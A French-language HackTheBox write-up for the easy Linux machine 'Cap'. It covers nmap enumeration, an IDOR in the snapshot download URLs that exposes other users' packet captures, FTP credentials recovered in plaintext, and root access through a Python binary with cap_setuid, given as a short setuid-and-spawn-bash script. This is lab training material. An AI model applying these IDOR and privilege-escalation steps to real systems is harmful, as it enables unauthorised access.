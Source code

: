 ```yaml
---
title: HTB | Cap
description: Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.
slug: cap-htb
date: 2024-12-06 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Cap cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Cap</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.245</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Users
```bash
nathan : Buck3tH4TF0RM3!
```

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -An -p- 10.10.10.245
Port 80 : HTTP - http://cap.htb
```

### /etc/hosts
On ajoute les noms de domaines necessaire. Un peu plus tard on découvrira qu'il y a également le nom de domaine: **data.analytical.htb**
```bash
## ...
10.10.10.245    cap.htb
```

## Foothold

### Snapshot
On observe un bouton snapshot qui permet visualiser des fichiers de capture reseau .pcap. On observe l'url :
> http://cap.htb/data/3
On peut download via un bouton, sur Burp on observe un appel a l'url:
> http://cap.htb/download/3

On download le plus de pcap possible pour les observer, on peut voir que le numéro 0 est intéressant.
Dedans, on découvre la capture de packets réseau montrant une connexion ftp avec un user/password en clair:

```bash
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
```

### FTP - user flag
On se connecte avec le user nathan et on récupère le flag utilisateur
```bash
ftp cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:leopold): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41519|)
150 Here comes the directory listing.
-rwxrwxr-x    1 1001     1001        46631 Dec 06 17:17 linenum.sh
-r--------    1 1001     1001           33 Dec 06 13:10 user.txt
226 Directory send OK.
ftp> cat user.txt
?Invalid command.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||44318|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |***************************************************************************************************************************************************************|    33      608.04 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.17 KiB/s)
```

## Privilege Escalation

### LinPEAS : Python SUID -> cap_setuid
On peut se connecter en ssh avec l'utilisateur nathan sur la machine. Ensuite, on trouve une vulnérabilité.
Python est autorisé à changer setuid(0) et donc d'executer n'importe quelle commande en tant que root:
```bash
$ ./linpeas.sh
...
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
...

nathan@cap:~/a$ vim please_dont_do_this.py

import os

## Changer l'UID en root
os.setuid(0)

## Lancer un shell interactif avec les privilèges root
os.system("/bin/bash")

nathan@cap:~/a$ python3 please_dont_do_this.py 
root@cap:~/a# 
root@cap:~/a# whoami
root
root@cap:~# cd /root
root@cap:/root# cat root.txt
d5d1.....bcf0
```